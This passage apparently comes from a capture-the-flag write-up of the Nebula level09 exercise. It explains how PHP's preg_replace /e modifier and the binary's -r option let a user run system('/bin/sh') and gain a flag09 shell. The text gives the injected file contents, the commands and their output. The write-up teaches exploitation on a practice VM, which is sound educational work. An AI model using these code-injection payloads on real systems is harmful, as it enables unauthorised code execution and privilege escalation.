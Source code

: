 ```shell
```

In particular, there are options (`-a`, `-r` and `-f` in particular) that
allows for execution of arbitrary PHP code. We can abuse this to get a flag09
shell.

```shell
level09@nebula:~$ /home/flag09/flag09 -r "system('/bin/sh');"
sh-4.2$ whoami
flag09
sh-4.2$ id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

**The Normal Method**

The PHP script reads a file with the following format and does some string
replacements via regex before printing it out.

```text
[email address@domain.com]
```

The intended vulnerability in the PHP script is the following line:

```php
$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
```

The `/e` in the first parameter of `preg_replace` is a [PCRE modifier][pcre-modifier]
that instructs `preg_replace` to `eval()` the second parameter as PHP code
after doing the normal substitution of backreferences.

More specifically, the `address@domain.com` component of the file will be
`eval()` as PHP code due to the `\2` backreference.

However, complicating the exploit is the fact that certain characters will be
escaped. Quoting from the documentation:

> Single quotes, double quotes, backslashes (\) and NULL chars will be escaped
> by backslashes in substituted backreferences.

After some experimenting, we end up with the following file that executes with
`system()` the value of the `$use_me` variable, which according to the script
is assigned the value of the second argument to the `flag09` binary.

```shell
level09@nebula:~$ cat /home/level09/text
[email {${system($use_me)}}]
```

Putting the pieces together:

```shell
level09@nebula:~$ /home/flag09/flag09 text /bin/sh
sh-4.2$ whoami
flag09
sh-4.2$ id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md